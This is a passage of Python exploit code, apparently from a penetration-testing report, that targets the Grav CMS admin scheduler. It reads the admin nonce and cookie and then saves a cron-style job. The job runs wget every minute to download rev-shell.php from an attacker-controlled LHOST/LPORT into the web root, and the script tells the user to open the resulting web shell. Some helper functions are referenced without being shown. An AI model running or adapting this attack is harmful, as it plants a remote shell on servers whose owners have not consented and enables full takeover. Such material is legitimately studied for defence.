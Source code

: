 ```python

def get_cookie(response):
    """ Return admin cookie from get response """

    return response.cookies.get_dict()


# Using a get request to the admin path, extract cookie and nonce

print("\033[0;34mGetting admin nonce and cookie from target...")

get_response = requests.get(f"http://{target}/admin")

admin_nonce = get_nonce(get_response)

admin_cookie = get_cookie(get_response)


# Command to run on target
command_bin = "/usr/bin/wget"

# Command arguments
command_arg = f"http://{LHOST}:{LPORT}/rev-shell.php -O /var/www/html/grav-admin/rev-shell.php"

# Random alphanumeric for task num
task = task_number(5)


# post data to create a file to check exploit
command_data = {'task' : 'SaveDefault',
f"data[custom_jobs][#{task}][command]" : command_bin,
f"data[custom_jobs][#{task}][args]" : command_arg,
f"data[custom_jobs][#{task}][at]" : '* * * * *',
f"data[custom_jobs][#{task}][output]" : '',
f"data[status][#{task}]" : 'enabled',
f"data[custom_jobs][#{task}][output_mode]" : 'append',
'admin-nonce' : admin_nonce
}

print("\033[0;34mSending payload...")

response = requests.post(f"http://{target}/admin/config/scheduler", data=command_data, cookies=admin_cookie)

if "Successfully saved" in response.text:
    print("\033[0;32mTask has been successfully saved! Wait 1 minute then navigate to your web shell!")
```

\newpage
